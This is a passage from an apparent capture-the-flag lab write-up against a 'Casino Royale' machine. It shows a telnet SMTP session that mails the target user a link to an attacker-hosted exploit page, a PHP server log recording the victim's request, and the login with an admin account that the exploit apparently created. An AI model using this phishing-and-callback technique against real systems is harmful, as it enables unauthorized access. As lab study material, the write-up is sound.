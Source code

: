 Lets send our exploit.

Found user obanno on player names, 

```bash

──(root㉿kali)-[/home/kali]
└─# telnet 192.168.0.107 25
Trying 192.168.0.107...
Connected to 192.168.0.107.
Escape character is '^]'.
MAIL FROM: hacker@hacker.com
220 Mail Server - NO UNAUTHORIZED ACCESS ALLOWED Pls.
250 2.1.0 Ok
RCPT TO: valenka
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
subject: obanno
look at this:        
http://192.168.0.112/snowfoxexploit.html            

.
250 2.0.0 Ok: queued as A42D01D05

```

Lets wait if we get a GET LOL


```bash

┌──(root㉿kali)-[~kali/exploitcasino]
└─# php -S 0.0.0.0:80
[Mon Jan 15 04:24:27 2024] PHP 8.2.10 Development Server (http://0.0.0.0:80) started
[Mon Jan 15 04:30:37 2024] 192.168.0.107:53562 Accepted
[Mon Jan 15 04:30:37 2024] 192.168.0.107:53562 [200]: GET /snowfoxexploit.html
[Mon Jan 15 04:30:37 2024] 192.168.0.107:53562 Closing
```

Got a get, lets test the user made. 

blackhexsage@darkthrone.mk
mypassword123

![Pasted image 20240115034222.png](/img/user/imgs/Pasted%20image%2020240115034222.png)

We are now admin

Checking le@casino-royale.local  user description

![Pasted image 20240115035002.png](/img/user/imgs/Pasted%20image%2020240115035002.png)


![Pasted image 20240115035030.png](/img/user/imgs/Pasted%20image%2020240115035030.png)
